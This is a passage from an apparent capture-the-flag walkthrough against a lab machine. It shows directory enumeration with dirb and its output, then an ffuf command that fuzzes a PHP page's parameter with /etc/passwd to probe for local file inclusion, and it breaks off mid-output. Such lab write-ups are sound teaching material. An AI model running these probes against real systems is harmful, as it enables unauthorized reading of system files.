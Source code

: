 **Browse to *[http://192.168.5.119/tasks/tasks\_todo.txt](http://192.168.5.119/tasks/tasks_todo.txt?ref=rootandbeer.com)* -**

> 1.  Change permissions for auth log
> 2.  Change port 22 -> 7672
> 3.  Set up phpMyAdmin

**Run *dirbuster* to discover additional directories under blog-post, including *blog-post/archives/*:**

```
└─$ dirb http://192.168.5.119/blog-post/ /usr/share/wordlists/dirb/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  7 17:14:34 2024
URL_BASE: http://192.168.5.119/blog-post/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.5.119/blog-post/ ----
==> DIRECTORY: http://192.168.5.119/blog-post/archives/                                                                                                   
+ http://192.168.5.119/blog-post/index.html (CODE:200|SIZE:190)                                                                                           
==> DIRECTORY: http://192.168.5.119/blog-post/uploads/                                                                                                    
                                                                                                                                                          
---- Entering directory: http://192.168.5.119/blog-post/archives/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                          
---- Entering directory: http://192.168.5.119/blog-post/uploads/ ----
+ http://192.168.5.119/blog-post/uploads/index.html (CODE:200|SIZE:190)                                                                                   
                                                                                                                                                          
-----------------
END_TIME: Wed Aug  7 17:15:46 2024
DOWNLOADED: 9224 - FOUND: 2
```

**Browse to *blog-post/archives/* to discover "randylogs.php".**

**Use [[ffuf]] to discover the "file" parameter for *randylogs.php*:**

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -fs 0 -u http://192.168.5.119/blog-post/archives/randylogs.php?FUZZ=/etc/passwd 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.119/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
```